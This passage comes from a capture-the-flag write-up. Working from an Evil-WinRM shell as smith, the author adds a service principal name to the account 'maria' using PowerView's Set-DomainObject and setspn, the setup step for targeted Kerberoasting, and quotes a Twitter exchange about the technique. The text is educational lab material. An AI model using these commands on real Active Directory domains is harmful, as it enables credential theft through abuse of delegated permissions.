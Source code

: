 I'll add an SPN to maria's account:



    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}



For some reason, this doesn't take:



    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprinciplename

    serviceprinciplename
    --------------------



~~It's not clear to my why I can't write this SPN, but it seems like a
dead end.~~

*Update*: After publishing this bit, I got this reply on Twitter:

> Cool writeup !\
> You could actually set an SPN for Maria and kerberoast it. You had to
> provide Smith\'s credential object but the hash was not crackable
> anyways :( . You can find how I did it here <https://t.co/TkuUqrmL2o>
>
> --- morph3 (@melihkaanyldz) [March 1,
> 2022](https://twitter.com/melihkaanyldz/status/1498635702300549123?ref_src=twsrc%5Etfw)

This wasn't quite right, as because the shell is already running as
smith, the cred isn't necessary. It seems that my instance of Object was
just in a bad state. On a reset:



    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}
    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname

    serviceprincipalname
    --------------------
    nonexistent/0XDF



But in subsequent replies on Twitter, morph3 did show how to do it using
`setspn` (a
[binary](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11))
that should be on DC). That works as well, as now both SPNs are there:



    *Evil-WinRM* PS C:\programdata> setspn -a MSSQLSvc/object.local:1433 object.local\maria
    Checking domain DC=object,DC=local
    CN=maria garcia,CN=Users,DC=object,DC=local
            MSSQLSvc/object.local:1433

    Updated object
    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname
